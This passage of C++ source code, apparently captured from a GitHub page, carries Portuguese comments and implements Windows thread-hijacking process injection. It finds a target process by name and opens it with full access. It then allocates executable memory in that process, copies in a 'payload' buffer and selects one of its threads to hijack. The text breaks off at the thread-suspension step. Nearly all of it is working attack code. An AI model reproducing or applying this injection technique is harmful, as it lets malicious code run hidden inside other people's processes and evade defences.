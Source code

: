 ```cpp
    // snapshot de todos os processos em execucao
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

    // inicializando dwSize
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // inicio da iteracao, primeiro processo
    proc = Process32First(hSnapshot, &pe32);

    // loop para iterar sobre os processos
    while (proc) {
        if (strcmp(procName, pe32.szExeFile) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
        proc = Process32Next(hSnapshot, &pe32);
    }

    // fecha o handle aberto
    CloseHandle(hSnapshot);
    return pid;
}

int main(int argc, char* argv[]) {
    int pid = 0;
    HANDLE procH; // process handle
    HANDLE remoteT; // remote thread
    LPVOID remoteB; // remote buffer

    HANDLE ht; // thread handle
    HANDLE thSnapshot;
    THREADENTRY32 te;
    CONTEXT cont;

    pid = findPID(argv[1]);

    // configurando o contexto e o sizeof da THREADENTRY32
    cont.ContextFlags = CONTEXT_FULL;
    te.dwSize = sizeof(THREADENTRY32);

    // cria o handle para o processo
    procH = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

    // aloca o buffer de memoria no processo remoto
    remoteB = VirtualAllocEx(procH, NULL, payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // copia o payload entre os processos
    WriteProcessMemory(procH, remoteB, payload, payload_len, NULL);

    // encontrando o ID da thread para sequestrar
    thSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
    if (Thread32First(thSnapshot, &te)) {
        do {
            if (pid == te.th32OwnerProcessID) {
                ht = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
                break;
            }
        } while (Thread32Next(thSnapshot, &te));
    }

    // suspendendo a thread encontrada
```